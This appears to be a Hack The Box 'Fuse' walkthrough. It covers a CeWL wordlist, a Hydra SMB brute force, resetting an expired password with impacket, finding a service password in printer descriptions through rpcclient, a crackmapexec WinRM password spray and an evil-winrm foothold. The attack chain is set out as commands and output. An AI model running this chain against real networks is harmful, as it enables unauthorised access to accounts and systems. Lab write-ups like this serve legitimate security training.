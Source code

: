 ## Brute Force
#### Cewl to get a pwd dictionary
It may take a minute or so
```bash
❯ cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -w cewl3.txt  
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```


#### Hydra
It may take two or three minutes
```bash
❯ cat users.txt  
pmerton  
tlavel   
❯ export IP=10.129.2.5           
❯ hydra -L users.txt -P cewl3.txt $IP smb
[445][smb] host: 10.129.2.5   login: tlavel   password: Fabricorp01
```
## SMB 
#### smbclient
```bash
❯ smbclient -L $IP -U tlavel  
Password for [WORKGROUP\tlavel]:  
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
#### smbpasswd to update it
```bash
smbpasswd -r $IP -U tlavel <- won't work, use impacket instead

❯ /usr/bin/impacket-smbpasswd -newpass Qwer4321= tlavel:Fabricorp01@$IP  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[!] Password is expired, trying to bind with a null session.  
[*] Password was changed successfully.
```
## RPC enum printers
```bash
❯ rpcclient -U "tlavel" $IP  
Password for [WORKGROUP\tlavel]:  
rpcclient $> enumprinters  
       flags:[0x800000]  
       name:[\\10.129.2.5\HP-MFT01]  
       description:[\\10.129.2.5\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]  
       comment:[]
❯ cat enumdomusers.txt | cut -d "]" -f1 | cut -d "[" -f2
```
#### Optional: crackmapexec build users.list
```
❯ crackmapexec smb $IP -u bhult -p Qwer4321=
```
## Password Spray
* https://github.com/A1vinSmith/OSCP-PWK/blob/master/HackTheBox/Windows/Active%20Directory/Forest/README.md#password-spraying---making-a-target-user-list-htb-academy
```bash
❯ crackmapexec winrm $IP -u users.txt -p '$fab@s3Rv1ce$1'  
SMB         10.129.2.5      5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)  
HTTP        10.129.2.5      5985   FUSE             [*] http://10.129.2.5:5985/wsman  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```
## Foothold
```bash
❯ evil-winrm -i $IP -u svc-print -p '$fab@s3Rv1ce$1'
```

## Reference
* https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/
* https://www.hackingarticles.in/fuse-hackthebox-walkthrough/
* https://github.com/Kyuu-Ji/htb-write-up/blob/master/fuse/write-up-fuse.md
* https://0xn1ghtr1ngs.github.io/posts/Fuse-HTB/
* https://snowscan.io/htb-writeup-fuse/#
* https://chr0x6eos.github.io/2020/10/31/htb-Fuse.html
